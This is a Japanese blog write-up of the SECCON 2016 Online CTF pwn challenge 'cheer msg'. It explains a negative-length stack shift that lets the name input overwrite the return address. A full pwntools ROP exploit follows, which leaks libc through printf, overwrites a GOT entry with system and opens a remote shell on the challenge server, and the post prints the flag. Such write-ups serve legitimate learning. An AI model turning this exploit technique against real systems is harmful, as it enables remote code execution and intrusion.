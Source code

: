 ```yaml
---
layout: post
alias: "/blog/2016/12/16/seccon-2016-online-cheermsg/"
date: "2016-12-16T21:02:05+09:00"
title: "SECCON 2016 Online CTF: cheer msg"
tags: [ "ctf", "writeup", "pwn", "rop" ]
"target_url": [ "https://score-quals.seccon.jp/question/3093a2f4584782e888feb5cf243d982dd3211e2b" ]
---
```


本番でやりかけたら影白さんが先に解いてくれてそのままになってた。
なのでpwn会で解いた。後輩らが村人Bで苦しんでるのを眺めながら解いて$3$時間かかった。もうちょっと速くしたい。

## problem

$32$bit。入力が$3$箇所。

``` sh
$ ./cheer_msg
Hello, I'm Nao.
Give me your cheering messages :)

Message Length >> 8  
Message >> Hello

Oops! I forgot to ask your name...
Can you tell me your name?

Name >> Yu

Thank you Yu!
Message : Hello
```

## solution

Message Lengthに指定した量だけ`main`関数内のlocal変数として領域が確保され、`message`関数内でこれに読み書きがされる。
ここで負数を指定するとMessage部分での読み込みは行われなくなるが、stackがずれることにより、Nameの読み込みで戻り先addressを書き換えることができる。
$-144$を指定するとちょうどNameの先頭に戻り先addressが来る。

後は適当にROP。`SECCON{N40.T_15_ju571c3}`。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='cheermsg.pwn.seccon.jp')
parser.add_argument('port', nargs='?', default=30527, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--libc', default='libc-2.19.so-c4dc1270c1449536ab2efbbe7053231f1a776368')
args = parser.parse_args()
context.log_level = args.log_level

elf = ELF('./cheer_msg')
libc = ELF(args.libc)
bss = 0x804a040
buf = bss + 0x300
thankyou = 0x804887e # "Thank you %s!\n"
pop_pop_ret = 0x080487ae # pop edi ; pop ebp ; ret

payload = ''
payload += p32(elf.plt['printf'])
payload += p32(pop_pop_ret)
payload += p32(thankyou)
payload += p32(elf.got['setbuf'])
payload += p32(elf.symbols['getnline'])
payload += p32(pop_pop_ret)
payload += p32(elf.got['setbuf'])
payload += p32(100)
payload += p32(elf.symbols['getnline'])
payload += p32(pop_pop_ret)
payload += p32(buf)
payload += p32(100)
payload += p32(elf.plt['setbuf'])
payload += 'CCCC'
payload += p32(buf)

p = remote(args.host, args.port)
p.recvuntil('Message Length >> ')
p.sendline('-144')
p.recvuntil('Message >> ')
p.recvuntil('Name >> ')
p.sendline(payload)
p.recvuntil('Thank you ')
p.recvuntil('Thank you ')
setbuf = u32(p.recv(4))
system = setbuf - libc.symbols['setbuf'] + libc.symbols['system']
log.info('setbuf: %#x', setbuf)
log.info('system: %#x', system)
time.sleep(0.3)
p.sendline(p32(system))
time.sleep(0.3)
p.sendline('/bin/sh\0')
time.sleep(1)
p.sendline('id')
p.interactive()
```
